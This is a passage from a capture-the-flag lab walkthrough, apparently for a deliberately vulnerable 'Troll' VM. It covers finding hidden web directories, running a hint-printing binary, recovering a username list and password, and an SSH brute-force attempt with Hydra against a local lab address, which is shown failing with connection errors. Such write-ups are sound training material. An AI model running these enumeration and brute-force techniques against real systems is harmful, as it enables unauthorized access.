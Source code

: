 ### 3. Look at the website
The website is serving a trollface picture on the index. There is also a secret directory with another trollface. I can look in /sup3rs3cr3tdirlol, which is a listable directory and contains one file called "roflmao". I can download this file and take a look.
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ file roflmao  
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped

┌──(kali㉿kali)-[~/Downloads]
└─$ ./roflmao
Find address 0x0856BF to proceed
```
After some further examination in disassembly tools, there is no other functionlity to this binary file. It doesn't accept user input - it literally just prints this static string and exits. Knowing this, go back and search for more directories, this time including 0x0856BF. This results in another listable directory being discovered at: /0x0856BF.
  
In this listable directory there are two folders: "good_luck" and "this_folder_contains_the_password/", both have only one text file inside. "good_luck" contains what looks to be a list of usernames:
```
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```
The password text file contains only a single line:
```
Good_job_:)
```
The only service I have to try these credentials with is SSH.

### 4. Try to attack SSH
The some reason SSH keeps dropping out and refusing connections as I try each user:pass combination, so this part I had to skip over unfortunately.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -L users.txt -P passwords.txt -t 2 -w 15 192.168.34.152 ssh -v                                                                                                                                                                                    255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-13 20:10:27
[DATA] max 2 tasks per 1 server, overall 2 tasks, 20 login tries (l:10/p:2), ~10 tries per task
[DATA] attacking ssh://192.168.34.152:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://maleus@192.168.34.152:22
[INFO] Successful, password authentication is supported by ssh://192.168.34.152:22
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 0
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 1
```